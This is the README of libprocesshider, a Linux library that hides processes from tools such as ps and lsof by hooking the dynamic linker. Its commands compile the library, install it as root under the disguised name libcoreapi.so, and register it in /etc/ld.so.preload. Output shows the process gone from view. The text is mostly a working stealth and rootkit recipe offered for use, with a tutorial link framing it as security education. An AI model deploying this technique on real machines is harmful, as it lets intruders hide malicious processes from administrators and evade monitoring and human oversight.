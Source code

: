 libprocesshider
===============

Hide a process under Linux using the ld preloader.

Full tutorial available at https://sysdigcloud.com/hiding-linux-processes-for-fun-and-profit/

In short, compile the library:

```
gianluca@sid:~/libprocesshider$ make
gcc -Wall -fPIC -shared -o libprocesshider.so processhider.c -ldl
gianluca@sid:~/libprocesshider$ sudo mv libprocesshider.so /usr/local/lib/libcoreapi.so
```

Load it with the global dynamic linker

```
root@sid:~# echo /usr/local/lib/libcoreapi.so >> /etc/ld.so.preload
```

And your process will be off the radar 

```
gianluca@sid:~$ sudo ps aux
USER PID %CPU %MEM VSZ RSS TTY STAT START TIME COMMAND
...

gianluca@sid:~$ sudo lsof -ni
COMMAND PID USER FD TYPE DEVICE SIZE/OFF NODE NAME
...
```
